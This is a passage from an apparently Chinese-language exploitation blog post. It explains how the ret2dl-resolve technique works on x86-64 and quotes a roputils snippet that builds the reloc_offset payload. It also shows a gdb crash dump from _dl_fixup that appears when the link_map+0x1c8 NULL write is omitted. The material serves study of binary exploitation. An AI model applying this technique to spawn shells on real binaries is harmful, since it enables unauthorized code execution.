 可以看到，给`_dl_runtime_resolve`传递的参数仍然是两个，但第二个参数已由之前32位的相对`JMPREL`的偏移变为该条目的在数组中的index。相应地，roputils在这里也进行了改变：

{% highlight python %}
...
        addr_reloc, padlen_reloc = self.align(base, jmprel, relaent)
        reloc_offset = (addr_reloc - jmprel) / relaent

        buf = self.p(self.plt())
        buf += self.p(reloc_offset)
...
{% endhighlight %}

另外，注意到给`_dl_runtime_resolve`传递参数的方式，依然是通过栈，而非一般情况下通过寄存器传递。这是因为此时的寄存器`rdi`等中已经存有要解析的函数所需的参数了。具体地，roputils中是通过某些gadget来将所需的参数，如`/bin/sh`的地址，保存在寄存器中。

然而，阅读roputils的示例代码，我们发现它还会在解析函数地址之前，将`link_map+0x1c8`处设为`NULL`。我们试着去掉这一操作，再执行发现遇到segfault了：

{% highlight bash %}
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x40033c --> 0x2000200020000
RBX: 0x600efc --> 0x600efc66477747
RCX: 0x155dc00000007
RDX: 0x155dc
RSI: 0x600f20 --> 0x1200200c40
RDI: 0x4002f8 --> 0x6f732e6362696c00 ('')
RBP: 0x0
RSP: 0x600da8 --> 0x0
RIP: 0x7ffff7de9448 (<_dl_fixup+120>:   movzx  eax,WORD PTR [rax+rdx*2])
R8 : 0x600f00 --> 0x600efc --> 0x600efc66477747
R9 : 0x7ffff7dea4e0 (<_dl_fini>:        push   rbp)
R10: 0x7ffff7ffe130 --> 0x0
R11: 0x246
R12: 0x0
R13: 0x0
R14: 0x0
R15: 0x0
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x7ffff7de943b <_dl_fixup+107>:      test   rax,rax
   0x7ffff7de943e <_dl_fixup+110>:      je     0x7ffff7de9530 <_dl_fixup+352>
   0x7ffff7de9444 <_dl_fixup+116>:      mov    rax,QWORD PTR [rax+0x8]
=> 0x7ffff7de9448 <_dl_fixup+120>:      movzx  eax,WORD PTR [rax+rdx*2]
   0x7ffff7de944c <_dl_fixup+124>:      and    eax,0x7fff
   0x7ffff7de9451 <_dl_fixup+129>:      lea    rdx,[rax+rax*2]
   0x7ffff7de9455 <_dl_fixup+133>:      mov    rax,QWORD PTR [r10+0x2e0]
   0x7ffff7de945c <_dl_fixup+140>:      lea    r8,[rax+rdx*8]
[------------------------------------stack-------------------------------------]
0000| 0x600da8 --> 0x0
0008| 0x600db0 --> 0x600f20 --> 0x1200200c40
0016| 0x600db8 --> 0x0
0024| 0x600dc0 --> 0x0
0032| 0x600dc8 --> 0x0
0040| 0x600dd0 --> 0x7ffff7defd00 (<_dl_runtime_resolve+80>:    mov    r11,rax)
0048| 0x600dd8 ("jweM5ZXF")
0056| 0x600de0 --> 0x0
[------------------------------------------------------------------------------]
{% endhighlight %}
